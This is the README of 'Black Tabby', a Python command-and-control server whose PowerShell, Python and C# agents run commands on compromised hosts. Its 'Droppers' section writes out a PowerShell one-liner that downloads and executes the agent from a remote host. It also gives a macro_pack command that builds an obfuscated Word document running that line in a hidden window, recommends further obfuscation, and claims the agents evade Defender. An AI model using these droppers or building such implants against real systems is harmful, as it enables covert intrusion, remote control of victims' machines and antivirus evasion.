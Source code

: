 # Black Tabby

Black Tabby is a Command & Control Server written in Python with agents written in python, powershell, C#


[![asciicast](https://asciinema.org/a/Cd53d45U1azyUZvlcbGdnOxDv.svg)](https://asciinema.org/a/Cd53d45U1azyUZvlcbGdnOxDv)





### Prerequisites
```
Docker
Python3
```

### Quick Setup

[![asciicast](https://asciinema.org/a/SeczUZSRttACRtMebp6S1iErA.svg)](https://asciinema.org/a/SeczUZSRttACRtMebp6S1iErA)

After Run BlackTabby.py to create the CouchDB View


### Setup

After docker and python3 is on your machine all you need to do is clone this repo and run the setup.sh file

```
git clone https://github.com/latortuga71/Black_Tabby.git
cd Black_Tabby
chmod +x setup.sh
pip3 -r install requirements.txt
./setup.sh
```

Then you will be asked to set the username & password for the CouchDB container and it will run on port 5984 of your local machine
It will also ask you for two secrets, a user-agent secret and an agent secret, these are very importing and are used when creating agents
so they can authenticate to your flask server. Which in turn communicates to the CouchDB container

![](https://github.com/latortuga71/Black_Tabby/blob/master/setup1.JPG)

After that has successfully completed run the following command
```
python3 BlackTabby.py
```
You will be asked for the credentials provided as well as the ip address and port that the CouchDB container is running on which should be 127.0.0.1 5984 unless you set this up to run on a different server that the CLI interface will be running on. This will create a view in CouchDB that is neccesary for the CLI to function properly.

## Agents
So far the only agents that can be created through the CLI are python and powershell, i wrote a C# agent that has my loopback hardcoded, as well as the agent secrets if this is edited to suite anyones needs then it can also be used. The C# source folder is [Here](https://github.com/latortuga71/Black_Tabby/tree/master/Agents/C%23AGENT/CSHARPAGENT)

## Droppers
In the DropperStuff folder i was able to create word doc that ran the following code as a way of executing the powershell agent.

```
IEX(New-Object Net.WebClient).downloadString('http://10.0.0.150/Agent.ps1') 
```
I came across [MacroPack](https://github.com/sevagas/macro_pack) which creates and obfuscates dropper files for you go ahead and check it out is pretty awesome. That in conjunction with [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) is a great combo. Below is command i used in macropack specifically.

```
echo "powershell.exe -windowstyle Hidden -c IEX(New-Object Net.WebClient).downloadString('http://10.0.0.150/Agent.ps1') -WindowStyle Hidden" | macro_pack.exe -t CMD -o -G  cmd.doc
```

## Creating Agents

There is an option on the CLI that allows you to create agents, it will ask you for the ip address and port it will be connecting to. In this case you do not enter the port 5984 which is CouchDB you would enter 9000 which is the flask server.
So if you are running the CLI and Server on same host, you would enter 127.0.0.1 and port 9000. After you will be asked for the two secrets specified during the bash setup script.

## Agent CLI (Work in progress)

Once you have connected to an agent just enter ? to see a list of options
* execute followed by a command will run a command and return the result
```
execute cmd
```
* get_all will return the full database document for that agent
* export json will write the json to a file.
```
export_json /tmp/json_output.txt
```

![](https://github.com/latortuga71/Black_Tabby/blob/master/setup3.JPG)

## Does it trigger antivirus tho?
As far as i know, the powershell and c# agents themselves dont trigger defender.

## Full Explanation eventually

Will write out full explanation eventually on blog for now below diagram is pretty good.
```

           ------------ 
           V           |
Agent -> Flask ---> CouchDB
 ^           |
 |           |
 |   	  |
 |   	  |
 ^           |
 |           |
 | <----------





```



